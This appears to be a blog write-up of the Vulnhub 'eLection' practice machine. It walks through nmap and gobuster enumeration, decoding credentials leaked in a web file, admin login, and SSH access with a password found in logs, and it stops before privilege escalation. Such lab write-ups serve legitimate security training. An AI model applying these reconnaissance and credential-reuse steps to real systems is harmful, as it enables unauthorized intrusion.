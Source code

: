 ```yaml
---
title: Vulnhub - eLection
description: My writeup on eLection box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://ichef.bbci.co.uk/images/ic/1024x576/p07snhjs.jpg)

Hi all, this was a really easy box let's pwn it!

You can find the machine there > [eLection](https://www.vulnhub.com/entry/election-1,503/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.15
$ nmap -sC -sV -p- -oN initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-10 00:35 EEST
Nmap scan report for election.zte.com.cn (192.168.1.15)
Host is up (0.00082s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:d1:ed:84:cc:68:a5:a7:86:f0:da:b8:92:3f:d9:67 (RSA)
|   256 78:89:b3:a2:75:12:76:92:2a:f9:8d:27:c1:08:a7:b9 (ECDSA)
|_  256 b8:f4:d6:61:cf:16:90:c5:07:18:99:b0:7c:70:fd:c0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:B2:39:C7 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we visit the webpage, we can see the apache2 default page. I always check first for `robots.txt` and we see these directories:

```
admin
wordpress
user
election
```

Only the `/election` is working and it runs some kind of webapp (?) :

![](https://i.imgur.com/mTGtndG.png)

Let's run `gobuster` on it.

```
$ gobuster dir -q -u http://$ip/election/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html -o gobuster.txt
/media (Status: 301)
/themes (Status: 301)
/data (Status: 301)
/admin (Status: 301)
/index.php (Status: 200)
/lib (Status: 301)
/languages (Status: 301)
/js (Status: 301)
/card.php (Status: 200)
```

`/card.php` has binary data in let's decode them.

![](https://i.imgur.com/AdGAcVp.png)

![](https://i.imgur.com/6yiTuyp.png)

Perfect `1234:Zxc123!@#` we can login with them under `/admin`. Under settings now we can download some logs:

![](https://i.imgur.com/MpOAHOG.png)

![](https://i.imgur.com/L6ldJLh.png)

These logs have this in:

```
$ cat system.log 
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
[2020-07-09 18:23:29] Love has been logged in from Unknown IP on Firefox (Linux).
[2020-07-09 18:24:28]  has been logged out from Unknown IP.
[2020-07-10 03:20:21] Love has been logged in from Unknown IP on Firefox (Linux).
```

We can use them with SSH.

```
$ ssh love@$ip
love@192.168.1.15's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * "If you've been waiting for the perfect Kubernetes dev solution for
   macOS, the wait is over. Learn how to install Microk8s on macOS."

   https://www.techrepublic.com/article/how-to-install-microk8s-on-macos/

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

74 packages can be updated.
28 updates are security updates.

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Thu Jul  9 18:27:37 2020 from 192.168.1.16
love@election:~$ 
```

Perfect, now privesc is pretty easy. Let's search for `SUID` binaries.



